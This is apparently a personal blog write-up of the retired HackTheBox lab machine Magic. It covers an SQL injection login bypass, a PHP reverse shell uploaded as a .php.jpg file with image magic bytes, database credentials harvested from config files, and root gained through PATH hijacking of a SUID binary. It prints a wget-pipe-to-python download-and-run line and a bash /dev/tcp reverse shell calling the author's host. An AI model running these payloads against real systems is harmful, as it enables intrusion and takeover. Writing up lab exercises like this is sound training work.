






Despite me mentioning in my [previous writeup](../traceback-writeup/) that I would be writing about the machines I did a while back or CTFs I have been participating in, HackTheBox's Twitter came to foil my plans by [announcing the retirement of Magic.](https://twitter.com/hackthebox_eu/status/1296732490296680449)
Since this was a box I enjoyed a lot (and my first medium difficulty one) I really wanted to get the writeup out just as it retired so I am delaying the others posts for now. I hope you don't mind too much (and after reading this post I think you won't ;))

[Magic](https://www.hackthebox.eu/home/machines/profile/241) is a Medium Linux box on [HackTheBox](https://hackthebox.eu). It took me a couple of days to complete, as most Medium Linux boxes I have done meanwhile (I have finished all of the active ones except for [OpenKeyS](https://www.hackthebox.eu/home/machines/profile/267) but that's OpenBSD so does it really count? :P ).
This was a box that I found pretty straightforward and I am glad that I picked it for my first Medium machine, since it was a very positive experience that motivated me to keep going. Despite the increase in difficulty I actually found this more logical (and kind of easier) than some Easy Linux boxes that were sometimes a bit "guessy" or random.

**Note for those in a hurry:** Summarized version near the bottom :)

## Initial foothold

Starting off as always with our usual `nmap` scan, we find two open ports:
```
root@kali:~/htb/magic# cat nmap/init.nmap 
# Nmap 7.80 scan initiated Fri Jul 31 00:58:13 2020 as: nmap -v -sV -sC -oA nmap/init 10.10.10.185
Nmap scan report for 10.10.10.185
Host is up (0.053s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 31 00:58:23 2020 -- 1 IP address (1 host up) scanned in 9.73 seconds
```

We only find SSH and an Apache webserver on this machine. Just like in the previous writeup I start by ignoring SSH since it is normally only used for later parts of the machine and not straight away for a foothold.

Let's start poking at the webserver! We find this homepage:



So this is a website to upload pictures? The text at the bottom of the image ("Please **Login** to upload images") suggests that it is.
`gobuster` started getting some results in the meantime that confirmed this:

```
root@kali:~/htb/magic# cat gobuster_root.txt 
http://10.10.10.185/index.php (Status: 200) [Size: 3988]
http://10.10.10.185/images (Status: 301) [Size: 313]
http://10.10.10.185/login.php (Status: 200) [Size: 4221]
http://10.10.10.185/assets (Status: 301) [Size: 313]
http://10.10.10.185/upload.php (Status: 302) [Size: 2957]
http://10.10.10.185/logout.php (Status: 302) [Size: 0]
http://10.10.10.185/server-status (Status: 403) [Size: 277]
```

Let's take a look at `login.php`:



After a smooth fade in animation, a login form appears. I tried some common credentials but none worked (admin:admin, root:root, etc).
So, on to the next typical thing: SQL Injection.

Since the password field did not seem to allow spaces and I was too lazy to fire up Burp Suite and change the requests, I just selected the password input element in Firefox's Inspector and entered the following: `$0.value = "' OR 1=1;--"`.

It worked! A good reminder to never forget to attempt the basics! All it takes is one broken login and we get going! The next page we see was already found by `gobuster`, but now we have a session that lets us actually see it:



In this page the suspicions I had after seeing the box's name were confirmed. In one of the CTFs I had done recently (BSides Porto 2020's Bad challenge, writeup soon to come) one of the challenges had us fixing a file's [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures). These bytes usually appear first or last in a file to indicate the file content's type. With the box's name being **Magic** and its website being about uploading images, I suspected that this might come into play.

However, first things first. I tried uploading a simple PHP reverse shell and was faced with the following alert after the page loaded:



Hmm the extension being checked might be troublesome to deal with. Let's continue.
To not leave potential leads behind, while I was thinking about the upload bypass I absent-mindedly searched up the SSH version. This found some exploits which I quickly looked into.

The vulnerability was user enumeration via some python scripts. I used `searchsploit` to find them and so inspecting and copying them was fairly easy (using the `-x` and `-m` flags respectively for e`x`amining and `m`irroring).
Both the fact that the scripts were breaking due to indentation errors and dependencies / version mismatches and the vulnerability being about confirming that a user did in fact exist via its name made me put this aside as a dry lead. I could in fact try bruteforcing this to find usernames. However, not only would that probably take too long to be useful, but it would also not help too much, since we still would have no password / private key and thus be unable to login.

So, back to uploading files. Another quick thing to try was just rename the php reverse shell's file extension. That resulted in a funny error:



I would later on find out that this was due to the webserver passing the file extension check but then finding `<?php` in the file's first bytes.

This was now where I lost some time getting sidetracked by interesting articles and ignoring the simpler solutions. I found [this article](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/) which really captured my attention. In a very summarised way it talks about encoding webshells inside of PNG files (which was how I found it) but in a way that the webshell survives being reencoded as a PNG (common technique to prevent having maliciously crafted / malformed images stored in a website, I found from later investigation). Despite this being really interesting, in hindsight it was a bit overkill.

My next lead (and several google searches) was [OWASP's page on Unrestricted File Upload vulnerability](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload).
This gave me a lot of new ideas for attacks I hadn't tried yet. The second paragraph in the following section really caught my attention:



At nearly the same time, I also found [this article](https://gobiasinfosec.blog/2019/12/24/file-upload-attacks-php-reverse-shell/). It gave me some other ideas that mixed with the ones above and suddenly (not really suddenly, since it was really only after some upload tests), the path was clear: I needed to have a reverse shell with an image's magic bytes and an image's file extension. However, that would not run as code whenever accessed later (`http://10.10.10.185/images/fulls/<myupload>.jpg`). Coming back to OWASP's article made me try `.php.jpg` and that worked! Following the steps in the blog I edited the payload for a php reverse shell I had generated via `msfvenom` with `hexeditor` and added JPG's magic bytes to its beggining (`FF D8 FF E0`). After uploading the file successfully, opening it via its "full" path in the browser results in us receiving our reverse shell!

I hope this shows you that even when I'm close to the answer, it is not always obvious. That's why I believe it to be very important to keep on trying different things and being creative, all while not forgetting what we have done and found so far.

Foothold done, we now have a reverse shell running as `www-data`:

```
root@kali:~/htb/magic# nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.15.245] from (UNKNOWN) [10.10.10.185] 49684
ls -la
total 7348
drwxr-xr-x 2 www-data www-data    4096 Jul 31 12:48 .
drwxr-xr-x 4 www-data www-data    4096 Apr 14 05:04 ..
-rw-r--r-- 1 www-data www-data 5289209 Oct 22  2019 7.jpg
-rw-r--r-- 1 www-data www-data 1455770 Oct 22  2019 giphy.gif
-rw-r--r-- 1 www-data www-data    3080 Jul 31 04:56 image.jpg
-rw-r--r-- 1 www-data www-data   10533 Jul 31 05:19 index.jpeg
-rw-r--r-- 1 www-data www-data  124278 Oct 22  2019 logo.png
-rw-r--r-- 1 www-data www-data  100328 Oct 22  2019 magic-1424x900.jpg
-rw-r--r-- 1 www-data www-data   37787 Oct 22  2019 magic-hat_23-2147512156.jpg
-rw-r--r-- 1 www-data www-data   67973 Oct 22  2019 magic-wand.jpg
-rw-r--r-- 1 www-data www-data     238 Jul 31 05:18 png.png
-rw-r--r-- 1 www-data www-data    3047 Jul 31 12:48 rev_shell_magicked.php.jpg
-rw-r--r-- 1 www-data www-data     192 Jul 31 03:49 shell.jpg
-rw-r--r-- 1 www-data www-data      32 Jul 31 12:43 simple.jpg
-rw-r--r-- 1 www-data www-data    5693 Jul 31 12:10 sinkhole.png
-rw-r--r-- 1 www-data www-data   10533 Jul 31 05:50 test.jpeg
-rw-r--r-- 1 root     root      361568 Apr 14 04:56 trx.jpg
-rw-r--r-- 1 www-data www-data    5560 Jul 31 11:36 webshell.png
whoami
www-data
```

## User

First things first, the PHP shell was a bit broken at times, so I quickly created a `rev.py` python script which I served using `python3 -m http.server 80` and downloaded and executed on the target machine by doing `wget http://10.10.15.245/rev.py -O- | python3`. It was taken from [pentestmonkey's reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), just changing the ip and port.
Now our shell is more stable and we can upgrade it (via `python3 -c 'import pty;pty.spawn("/bin/bash")'`).

We can now go a couple directories up and look at the source code:
```
www-data@ubuntu:/var/www/Magic/images/uploads$ 
www-data@ubuntu:/var/www/Magic/images/uploads$ cd ../..
www-data@ubuntu:/var/www/Magic$ ls -la
total 52
drwxr-xr-x 4 www-data www-data 4096 Mar 17 09:10 .
drwxr-xr-x 4 root     root     4096 Mar 13 06:07 ..
-rwx---r-x 1 www-data www-data  162 Oct 18  2019 .htaccess
drwxrwxr-x 6 www-data www-data 4096 Jun  6  2019 assets
-rw-r--r-- 1 www-data www-data  881 Oct 16  2019 db.php5
drwxr-xr-x 4 www-data www-data 4096 Apr 14 05:04 images
-rw-rw-r-- 1 www-data www-data 4528 Oct 22  2019 index.php
-rw-r--r-- 1 www-data www-data 5539 Oct 22  2019 login.php
-rw-r--r-- 1 www-data www-data   72 Oct 18  2019 logout.php
-rw-r--r-- 1 www-data www-data 4520 Oct 22  2019 upload.php
www-data@ubuntu:/var/www/Magic$ cat db.php5 
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}
```

`db.php5` sure looked interesting, and it is! It contains the credentials for the database! They are `theseus:iamkingtheseus`.

Also looking at `/etc/passwd`, we find that only `theseus` and `root` have a login prompt.

```
www-data@ubuntu:/var/www/Magic$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:117:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
sshd:x:123:65534::/run/sshd:/usr/sbin/nologin
mysql:x:122:127:MySQL Server,,,:/nonexistent:/bin/false
```

As usual, trying the credentials we just got in the places we can access. This means `ssh` and `su`. It might sound dumb to try it since these are obviously database credentials, but many times they can be the same as the ones for the user. This was unsuccessful, so let's try poking at the db.
Sadly, `mysql` was not installed. Let's try to connect via PHP directly then. Just trying `php -a` and creating the connection to the DB using PDO directly results in PHP complaining about not having the database drivers... That's weird, since the website clearly works...

After some struggling, it was just a matter of versions. The system has several installed and `php` is aliased to PHP 5, while the driver is only installed for PHP 7. Typing in `php` and hitting tab a couple of times shows us what we need to use:

```
www-data@ubuntu:/var/www/Magic$ php
php        php5.6     php7.3     php7.4     phpdismod  phpenmod   phpquery
```

As such, let's start creating the connection and such... Wait! Maybe we can just reuse the `db.php5` file! I'm lazy, so let's try that! (This was the original shell when I was first doing the box, I included it so that the version struggles are also shown)

```
ww-data@ubuntu:/var/www/Magic$ php -a
Interactive mode enabled

php > require 'db.php5';
php > $pdo = Database::connect();
could not find driver
php > ^Dwww-data@ubuntu:/var/www/Magic$ php7.4 -a
Interactive mode enabled

php > require 'db.php5';
php > $pdo = Dat
Database                              date_get_last_errors                  date_time_set
date                                  date_interval_create_from_date_string date_timestamp_get
date_add                              date_interval_format                  date_timestamp_set
date_create                           date_isodate_set                      date_timezone_get
date_create_from_format               date_modify                           date_timezone_set
date_create_immutable                 date_offset_get                       DateInterval
date_create_immutable_from_format     date_parse                            DatePeriod
date_date_set                         date_parse_from_format                DateTime
date_default_timezone_get             date_sub                              DateTimeImmutable
date_default_timezone_set             date_sun_info                         DateTimeInterface
date_diff                             date_sunrise                          DateTimeZone
date_format                           date_sunset
php > $pdo = Database::connect();
php > $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
php > $pdo->setAttribute(PDO::ATTR_DEFAULT_FETCH_MODE, PDO::FETCH_OBJ);
php > $stmt = $pdo->query("SELECT * FROM login";
php ( );
PHP Parse error:  syntax error, unexpected ';', expecting ')' in php shell code on line 1
php > $stmt = $pdo->query("SELECT * FROM login");
php > $users = $stmt->fetchAll();
php > echo $users;
PHP Notice:  Array to string conversion in php shell code on line 1
Array
php > var_dump($users);
array(1) {
  [0]=>
  object(stdClass)#3 (3) {
    ["id"]=>
    string(1) "1"
    ["username"]=>
    string(5) "admin"
    ["password"]=>
    string(14) "Th3s3usW4sK1ng"
  }
}
php >
```

I found the table name by looking at `login.php` (where we can also take a look at why SQL injection was possible):

```php
<!-- Redacted HTML above -->
<?php
session_start();
require 'db.php5';
if (!empty($_POST['username'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];
    if (strpos( strtolower($username), 'sleep') === false && strpos( strtolower($password), 'sleep') === false && strpos( strtolower($username), 'benchmark') === false && strpos( strtolower($password), 'benchmark') === false) {
        try {
            $pdo = Database::connect();
            $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
            $pdo->setAttribute(PDO::ATTR_DEFAULT_FETCH_MODE, PDO::FETCH_OBJ);
            $stmt = $pdo->query("SELECT * FROM login WHERE username='$username' AND password='$password'");
            $user = $stmt->fetch();
            $count = 0;
            foreach ($user as $value) {
                $count += 1;
            }
            Database::disconnect();
            if ($count > 0) {
                $_SESSION['user_id'] = $user->id;
                header("Location: upload.php");
            } else {
                print("<script>alert('Wrong Username or Password')</script>");
                //print('Wrong Username or Password');
            }
        } catch (PDOException $e) {
            //echo "Error: " . $e->getMessage();
            //echo "An SQL Error occurred!";
        }
    }
}
?>
<!-- Redacted HTML below -->
```

After doing this, we found new credentials: `admin:Th3s3usW4sK1ng`. Trying `su` gets us to `theseus`!

```
www-data@ubuntu:/var/www/Magic$ su - theseus
Password:
theseus@ubuntu:~$ ls -la
total 84
drwxr-xr-x 15 theseus theseus 4096 Apr 16 02:58 .
drwxr-xr-x  3 root    root    4096 Oct 15  2019 ..
lrwxrwxrwx  1 theseus theseus    9 Oct 21  2019 .bash_history -> /dev/null
-rw-r--r--  1 theseus theseus  220 Oct 15  2019 .bash_logout
-rw-r--r--  1 theseus theseus   15 Oct 21  2019 .bash_profile
-rw-r--r--  1 theseus theseus 3771 Oct 15  2019 .bashrc
drwxrwxr-x 13 theseus theseus 4096 Mar 13 05:57 .cache
drwx------ 13 theseus theseus 4096 Oct 22  2019 .config
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Desktop
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Documents
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Downloads
drwx------  3 theseus theseus 4096 Oct 21  2019 .gnupg
-rw-------  1 theseus theseus 7334 Apr 15 23:50 .ICEauthority
drwx------  3 theseus theseus 4096 Oct 21  2019 .local
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Music
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Pictures
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Public
drwx------  2 theseus theseus 4096 Oct 21  2019 .ssh
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Templates
-r--------  1 theseus theseus   33 Aug 20 21:55 user.txt
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Videos
theseus@ubuntu:~$ cat user.txt
REDACTED_HASH
```

We have owned user! Now to get onto root!

## Root

Starting off by `sudo -l` we get nothing:

```
theseus@ubuntu:~$ sudo -l
[sudo] password for theseus:
Sorry, user theseus may not run sudo on ubuntu.
```

I got linpeas running and went for a quick bathroom break. When I came back I was happy to find what looked like an unusual SUID binary owned by root! This looks like a good path to try!
After googling a bit on common SUID binary exploits, found [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM), which looked useful but didn't give us any information that we didn't have before, since this is a custom binary.
Let's try running `strings` against it to see what's up (output truncated above and below, there was a lot of garbage output):

```
...
ATSH
[A\]
ATSH
 [A\]
ATSH
 [A\]
AWAVI
AUATL
[]A\A]A^A_
popen() failed!
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h
;*3$"
zPLR
GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
...
```

In the middle of a lot of garbage, macros, file headers, etc, we found `lshw`, `fdisk`, `cat` and `free`. When running the binary it looks like these programs are ran.
Hmm, this looks exploitable. Some googling later I found it was! Since the paths are not absolute and we can manipulate environment variables before running the program, we can just change the `$PATH` to include a directory where we have a script that overloads one of those binaries into giving us a shell! 😁

```
theseus@ubuntu:~$ tmp_dir=$(mktemp -d)
theseus@ubuntu:~$ cd $tmp_dir
theseus@ubuntu:/tmp/tmp.LLJnt97Prw$ echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.15.245/8934 0>&1' > lshw
theseus@ubuntu:/tmp/tmp.LLJnt97Prw$ chmod +x lshw
theseus@ubuntu:/tmp/tmp.LLJnt97Prw$ cat lshw
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.245/8934 0>&1
theseus@ubuntu:/tmp/tmp.LLJnt97Prw$ export PATH=".:$PATH"
theseus@ubuntu:/tmp/tmp.LLJnt97Prw$ /bin/sysinfo
====================Hardware Info====================

```

The script will now hang here while the reverse shell is spawned. At the time this is what I did. When making this writeup I tried to get an interactive shell directly in the same session, but just having `bash -i` or `bash -c 'bash -i'` in the script resulted in an interactive prompt, but one that only output the results when the file was done running (i.e. when we exited the root prompt via `exit` or Ctrl-D). I tried some redirection of stdout and such but did not manage to fix this. If you know a way to make this work, be sure to let me know! 😉 (Additionally we could also write an ssh public key to root's home and just SSH in afterwards, like we did in the last writeup)

For completeness sake, here's the root shell:

```
root@kali:~/htb/magic/image_payload# nc -lvnp 8934
listening on [any] 8934 ...
connect to [10.10.15.245] from (UNKNOWN) [10.10.10.185] 35656
root@ubuntu:/tmp/tmp.LLJnt97Prw# cd /root
cd /root
root@ubuntu:/root# id
id
uid=0(root) gid=0(root) groups=0(root),100(users),1000(theseus)
root@ubuntu:/root# hostname
hostname
ubuntu
root@ubuntu:/root# ifconfig
ifconfig
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.185  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb9:81aa  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:81aa  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:81:aa  txqueuelen 1000  (Ethernet)
        RX packets 549606  bytes 66336241 (66.3 MB)
        RX errors 0  dropped 919  overruns 0  frame 0
        TX packets 428701  bytes 213461624 (213.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 94894  bytes 6794910 (6.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 94894  bytes 6794910 (6.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@ubuntu:/root# cat root.txt
cat root.txt
REDACTED_HASH
```

Box done!

## TL;WH - Too Long; Wanna Hack

Since some people are always in a rush, here's the abridged version.

Foothold:
* Find port 80 open with apache server
* Find login page, bypass it using typical SQL injection (`' OR 1=1;--`)
* Upload PHP reverse shell with `.php.<image-ext>` file extension and magic bytes of one of those image types. Possible types are JPG, JPEG and PNG
* Make a request to the uploaded image at `http://10.10.10.185/images/uploads/<your-file>`
* Receive the reverse shell running as `www-data`

User:
* Find the db credentials in `/var/www/Magic/db.php5`
* Access db and extract credentials
* Upgrade to full tty
* `su - theseus` with the extracted password
* Read the flag in `theseus`'s home!

Root:
* Search for root-owned SUID binaries to find `/bin/sysinfo`
* Run it and run `strings` against it to figure out that it's executing `lshw`, `fdisk`, `cat` and `free`
* Create a script for a reverse shell with the same name as one of those programs
* Mark it as executable and add its location to the `PATH` environment variable
* Execute `/bin/sysinfo` and receive root reverse shell
* Read the flag in `/root`!

## Overall thoughts

This box was my first Medium Linux machine, being my eight root total at the time (I'm already at 11 total, 8 easy and 3 medium).
It was not too difficult, being very straightforward all the way, not having lots of rabbit holes like other machines or unrealistic guessing.

I enjoyed the machine a lot because of that and it was a good way to keep my motivation up to continue working on other Medium boxes.

I don't think I have any part that I found I more than the rest, as I enjoyed the whole box overall.
Maybe the foothold due to being something I had been working with recently (image magic bytes), but otherwise the box was pretty good as a whole.

## Sign-off

I'll continue working on writeups as the machines become retired.
I'll try to get the posts on the older boxes I did going since they're already retired as well.
However, I think that will only happen if I haven't done the next boxes that are retired, since I have to keep writing the writeups from my notes as the announcements are made (and there usually is not a lot of time since the announcement to make the writeup).

I also want to get the writeup for BSides Porto 2020 CTF going, especially since several challenges were quite simple and thus the writeup should not take too long.
